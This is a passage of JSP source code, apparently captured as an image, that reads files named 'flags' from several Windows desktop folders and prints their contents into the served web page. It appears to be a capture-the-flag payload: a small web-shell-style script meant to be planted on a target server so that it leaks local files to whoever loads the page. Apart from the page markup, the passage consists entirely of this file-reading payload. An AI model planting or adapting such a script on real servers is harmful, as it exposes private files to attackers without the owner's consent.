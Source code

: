 ```jsp
        }
    } catch (Throwable e) {
        output2 = e.toString();
    }

    String output4 = "";
    try {
        File file4 = new File("C:/Users/Default/Desktop/flags");
        FileReader fileReader = new FileReader(file4);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output4 += (char) nowI;
        }
    } catch (Throwable e) {
        output4 = e.toString();
    }

    String output5 = "";
    try {
        File file5 = new File("C:/Users/Default User/Desktop/flags");
        FileReader fileReader = new FileReader(file5);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output5 += (char) nowI;
        }
    } catch (Throwable e) {
        output5 = e.toString();
    }

    String output6 = "";
    try {
        File file6 = new File("C:/Users/Public/Desktop/flags");
        FileReader fileReader = new FileReader(file6);
        while (true) {
            int nowI = fileReader.read();
            if (nowI == -1) {
                break;
            }
            output6 += (char) nowI;
        }
    } catch (Throwable e) {
        output6 = e.toString();
    }

%>
    <pre><%=output1 %></pre>
    <pre><%=output2 %></pre>
    <pre><%=output4 %></pre>
    <pre><%=output5 %></pre>
    <pre><%=output6 %></pre>
</span>
```
